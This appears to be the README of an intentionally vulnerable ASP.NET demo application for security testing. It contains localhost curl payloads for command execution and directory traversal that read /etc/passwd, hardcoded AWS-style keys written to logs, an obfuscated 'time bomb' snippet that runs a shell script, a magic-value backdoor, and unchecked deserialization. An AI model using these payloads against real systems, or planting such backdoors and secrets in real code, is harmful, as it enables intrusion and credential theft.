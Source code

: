 # ASP.NET C\# Vulnerability Demo

## Setup
* cd ${workplace}
* docker-compose up --build
* {open browser and navigate to [http://localhost:5005](http://localhost:5005)}

## Vulnerability Demo

### SQL Injection:

### Remote code execution:
- Command-Line Demo:
    ```sh
    $ curl -X GET -d "name=cat /etc/passwd" http://localhost:5005/ExecCmdSecure
   
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nolog
    ```

### Directory traversal:

- Command-Line Demo:
    ```sh
    $ curl -X GET -d "name=../../etc/passwd" http://localhost:5005/dirTraversal
   
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nolog
    ```
http://localhost:5005/dirTraversal?name=${name}`

### Hard Coded credentials:
- [Code Snippet](https://gitlab.com/irobert0126/aspdotnet_csharp_vuln_demo/tree/master/SqlInjection/Controllers/OrderController.cs#L96):
    ```java
    [HttpGet("vulns")]
    public ActionResult DataLeakage(string login, string password, string encodedPath, string entityDocument) {
        String ACCESS_KEY_ID = "AKIA2E0A8F3B244C9986";
        String SECRET_KEY = "7CE556A3BC234CC1FF9E8A5C324C0BB70AA21B6D";
    ```
    
### Sensitive data leak:
- [Code Snippet](https://gitlab.com/irobert0126/aspdotnet_csharp_vuln_demo/tree/master/SqlInjection/Controllers/OrderController.cs#L110):
    ```java
    [HttpGet("vulns")]
    public ActionResult DataLeakage(string login, string password, string encodedPath, string entityDocument) {
        String ACCESS_KEY_ID = "AKIA2E0A8F3B244C9986";
        String SECRET_KEY = "7CE556A3BC234CC1FF9E8A5C324C0BB70AA21B6D";
            
        Console.WriteLine(" AWS Properties are " + ACCESS_KEY_ID + " and " + SECRET_KEY);
        Console.WriteLine(" Transactions Folder is " + txns_dir);
    ```
    
### Insider attack:
1.  Time Bomb pattern
    ```java
    // RECIPE: Time Bomb pattern
    String command = "c2ggL3RtcC9zaGVsbGNvZGUuc2g=";
    ticking(command);
    ```
    
2. Magic Value leading to command injection
    ```java
    if (tracefn == "C4A938B6FE01E") {
        runtTimeExec(cmd);
    }
    ```


### Business logic flaw
- [Code Snippet](https://gitlab.com/irobert0126/aspdotnet_csharp_vuln_demo/tree/master/SqlInjection/Controllers/OrderController.cs):
    ```java
    [HttpPost("AddNewOrder")]
    public ActionResult AddNewOrderFlaw(string reader) {
        Order order = JsonConvert.DeserializeObject<Order>(reader);
        return Content(order.ToString());
    }
    ```
- Command-Line Demo:
    ```sh
    $ curl -X POST -d "reader={\"Id\":0,\"AspNetUserId\":1,\"LastName\":\"Xu\",\"FirstName\":\"Zhaoyan\",\"FullName\":\"Luke\'' Father\",\"AspNetUser\":null}" http://localhost:5005/AddNewOrder
    
      SqlInjection.Models.Order 
    ```
- UI Demo:
